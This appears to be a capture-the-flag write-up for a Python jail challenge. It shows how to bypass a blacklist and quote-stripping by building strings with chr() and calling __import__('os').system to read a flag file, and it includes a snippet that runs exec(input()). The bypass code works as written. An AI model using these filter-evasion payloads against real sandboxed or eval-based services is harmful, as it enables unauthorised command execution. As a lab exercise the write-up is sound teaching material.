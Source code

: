 # Solution
You have access to global variables (see `g`), just `open` is blacklisted.

That means you can import stuff using `__import__`.

Since `"` and `'` are replaced from the input with an empty string, you need to create your string using `chr(ascii)`

The following executes a system command to print the contents of the file.
##### Windows: 
```py
__import__("os").system("type flag")
# encoded:
__import__(str().join(map(chr, [0x6F, 0x73]))).system(str().join(map(chr, [0x74, 0x79, 0x70, 0x65, 0x20, 0x66, 0x6C, 0x61, 0x67])))
```
##### Unix:
```py
__import__("os").system("cat flag")
# encoded:
__import__(str().join(map(chr, [0x6F, 0x73]))).system(str().join(map(chr, [0x63, 0x61, 0x74, 0x20, 0x66, 0x6C, 0x61, 0x67])))
```

## Trivia
Without removing `exec` and `eval` you could do:
```py
:exec(input())
while True: exec(input('> '))
> from pathlib import *
> print(pathlib.Path('flag').read_text())
```
